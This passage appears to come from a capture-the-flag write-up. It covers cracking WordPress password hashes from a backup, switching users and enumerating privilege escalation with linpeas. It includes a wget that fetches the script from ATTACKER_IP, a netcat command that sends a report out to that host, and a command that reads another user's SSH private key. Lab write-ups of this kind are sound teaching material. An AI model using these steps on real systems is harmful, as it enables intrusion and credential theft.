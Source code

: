Now  let's look for strings:
```bash
strings  wp_backup.sql
```

```sql
INSERT INTO `wp_users` VALUES REDACTED_FOR_THE_WRITEUP
```

This is nice we find all users password's hashes; time to crack them: (make sure to append the names `name:hash`)
```bash
john --format=phpass --wordlist=rockyou.txt hashes.txt
```

We find diego password REDACTED_PASSWORD.

Now we can switch user:
```bash
su diego
```

There is the user flag in his home:
```bash
cat /home/diego/user.txt
```
--> REDACTED_FLAG


From my machine i transferred the `linpeas.sh` script on the target using a python HTTP server:
```bash
python3 -m http.server
```

On target:
```bash
wget http://ATTACKER_IP:8000/linpeas.sh
```

Now let's make the file executable and run it:
```bash
chmod +x linpeas.sh
```
```bash
./linpeas.sh > linpeas_report
```

For better readability i then transferred the report on my machine:
```bash
nc -lvnp 4444 > linpeas_report
```

On target:
```bash
nc -nv ATTACKER_IP 4444 < linpeas_report
```


##### Becoming Think
We find that we have read access to the user "think" SSH key:
```bash
cat /home/think/.ssh/id_rsa
```
